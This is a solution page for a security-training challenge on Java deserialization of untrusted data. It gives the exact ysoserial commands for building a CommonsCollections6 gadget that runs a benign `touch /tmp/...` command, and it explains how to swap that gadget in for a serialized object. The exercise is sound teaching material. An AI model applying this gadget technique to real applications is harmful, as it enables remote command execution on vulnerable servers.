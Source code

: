 ### Solution for the "Deserialization of Untrusted Data" challenge

This challenge shows the combined risk of deserializing attacker controlled objects and using outdated 3rd party libraries, even if not directly referenced. 

To complete the challenge you need to do the following:

- Generate a serialized attack gadget using `ysoserial`. Please read the challenge details for instructions on how to use `ysoserial`
- The gadget should execute the command `touch /tmp/YOUR_FILE_NAME` where `YOUR_FILE_NAME` is something you choose
- The gadget should use the `CommonsCollections6` payload
- If you run `ysoserial` from a container run the following command first `docker run --entrypoint sh -it frohoff/ysoserial`
- Then run the following command to generate the gadget `java -jar ysoserial.jar CommonsCollections6 'touch /tmp/YOUR_FILE_NAME'|base64`
- Replace the base64 encoded string for the "Cat" object with the attack gadget base64 string
- Enter the chosen `YOUR_FILE_NAME` for validation and submit

Note: If you get the message _"Gadget command validation failed. Only commands like `'touch /tmp/YOUR_FILE_NAME'` are allowed."_, one of the following may have happened:

- You used the wrong command when you generated the gadget. You are only allowed to execute `touch /tmp/YOUR_FILE_NAME` for obvious reasons :)
- You entered the wrong file name. The server cannot validate the command
